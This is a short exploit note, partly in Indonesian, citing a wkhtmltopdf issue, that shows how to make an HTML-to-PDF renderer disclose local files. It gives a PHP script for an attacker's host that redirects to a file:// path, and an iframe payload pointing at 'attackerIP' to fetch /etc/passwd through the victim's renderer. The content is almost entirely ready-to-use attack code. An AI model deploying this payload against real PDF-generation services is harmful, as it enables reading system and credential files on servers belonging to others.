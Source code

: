 Ref: https://github.com/wkhtmltopdf/wkhtmltopdf/issues/3570

Attacker -- Victim

Host PHP Attacker
```
<?php
     $file = $_GET['file'];
     header("location:file://$file");
?>
```

Akses php file dari victim menggunakan iframe,img,etc
```
<iframe src='http://attackerIP/t.php?file=/etc/passwd></iframe>
```

